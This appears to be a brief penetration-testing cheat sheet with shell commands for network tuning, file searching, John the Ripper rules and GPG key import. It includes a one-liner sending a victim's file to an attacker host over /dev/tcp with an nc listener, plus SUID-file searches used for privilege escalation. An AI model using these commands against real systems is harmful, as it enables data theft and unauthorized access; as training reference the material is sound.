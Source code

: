 ***

### Utilities

#### Random Commands

**mtu speed**

```bash
sudo ifconfig tun0 mtu 1200
```

**send a file from victim machine to attacker machine**

on the victim machine

```bash
cat $file > /dev/tcp/<attacker ip>/<port>
```

on the attacker machine

```bash
nc -nlvp <port> > filename
```

***

#### Find Command

**Listing files owned by a group**

```bash
find / -type f -group users 2>/dev/null
```

**Search for SUID files**

```bash
find / -user root -perm -4000 -print 2>/dev/null
```

#### JohnTheRipper

Rules file

```markdown
/etc/john/john.conf
```

example rule

```markdown
[List.Rules:$name]
Az"[0-9][0-9]"
```

#### ASC / GPG Keys

```bash
gpg --import private.key
```
